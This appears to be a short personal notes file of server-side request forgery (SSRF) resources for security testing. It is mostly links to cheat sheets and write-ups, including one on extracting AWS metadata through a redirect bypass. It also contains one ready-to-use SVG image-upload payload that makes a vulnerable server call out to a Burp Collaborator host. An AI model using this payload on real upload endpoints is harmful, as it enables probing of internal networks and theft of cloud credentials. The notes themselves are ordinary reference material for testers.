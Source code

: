 ## 1. SSRF bible
https://docs.google.com/document/u/0/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/mobilebasic#h.3ndar9ni0n0h


## 2. Tips and tricks for ssrf
https://highon.coffee/blog/ssrf-cheat-sheet/#identifying-potential-locations-for-ssrf

## 3. SSRF payload in image upload
```
<?xml version="1.0" standalone="no"?><!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"> <svg width="200px" height="200px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink"><image xlink:href="https://1y0ry36zsloshorypw4jca32mtsjg8.burpcollaborator.net/" x="0" y="0" height="200px" width="200px"/></svg>
```

## 4. Bypass by redirect through own server
https://infosecwriteups.com/an-exciting-journey-to-find-ssrf-bypass-cloudflare-and-extract-aws-metadata-fdb8be0b5f79


##
https://d0nut.medium.com/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5


## SSRF Write-ups
https://reconshell.com/awesome-ssrf-writeups/

